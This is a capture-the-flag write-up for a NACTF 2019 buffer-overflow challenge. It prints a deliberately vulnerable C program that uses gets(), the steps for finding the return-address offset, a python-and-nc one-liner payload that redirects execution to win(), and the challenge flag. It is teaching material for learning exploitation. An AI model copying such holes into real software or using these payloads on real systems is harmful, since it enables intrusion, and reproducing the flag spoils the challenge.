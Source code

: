 # BufferOverflow #1
Points: 200

## Category
Binary Exploitation

## Question
>The close cousin of a website for "Question marked as duplicate" - part 2!

>Can you redirect code execution and get the flag?

>Connect at shell.2019.nactf.com:31462

### Hint
>pwntools can help you with crafting payloads

## Solution
Contents of `bufover-1.c`
```
#include <stdio.h>

void win()
{
	printf("You win!\n");
	char buf[256];
	FILE* f = fopen("./flag.txt", "r");
	if (f == NULL)
	{
		puts("flag.txt not found - ping us on discord if this is happening on the shell server\n");
	}
	else
	{
		fgets(buf, sizeof(buf), f);
		printf("flag: %s\n", buf);
	}
}

void vuln()
{
	char buf[16];
	printf("Type something>");
	gets(buf);
	printf("You typed %s!\n", buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();
	return 0;
}
```
For this challenge we have to control the overflow and direct it to the `win() function` The first thing you need to know is the address of the `win() function`. 
Use `readelf -s bufover-1`. The address of `win()` is `080491b2`.
Remember to convert the address into Little Endian.

Next, we have to know how many bytes to cause an overflow. Inspecting the `bufover-1.c` file say that `gets(buf)` has a buffer size of `16`. Therefore, we have to print greater than 16 character to cause an overflow but remember we have to control it and direct it to `win()`. Use command `python -c "print 'A'*20" | ./bufover-1`, we can start with 20 and increment by 4 till we can get a `segmentation fault`. 

To know whether we have caused `segmentation fault`, we can check with `dmesg | tail -2`. Repeat `python -c "print 'A'*20" | ./bufover-1` with increments by 4 until we get something similar to this.
```bash
[17418.603345] bufover-1[6635]: segfault at 41414141 ip 0000000041414141 sp 00000000ffa2ca00 error 14 in libc-2.28.so[f7da1000+1d7000]

```
The value of A in ASCII is 41. So AAAA is 41414141

`Segmentation fault` occurs when we print 32 bytes ('A'*32). Remove 4 bytes `'A'*28` then add the address of `win()` from earlier. Your final code will be this: 
`python -c "import struct; print 'A'*28 + struct.pack('<I', 0x080491b2)" | nc shell.2019.nactf.com 31462` and you will get the flag. 

`-c` is to run as console.
`sturct.pack('<I', address)` is to convert into little endian format.
### Flag
`nactf{pwn_31p_0n_r3t_iNylg281}`
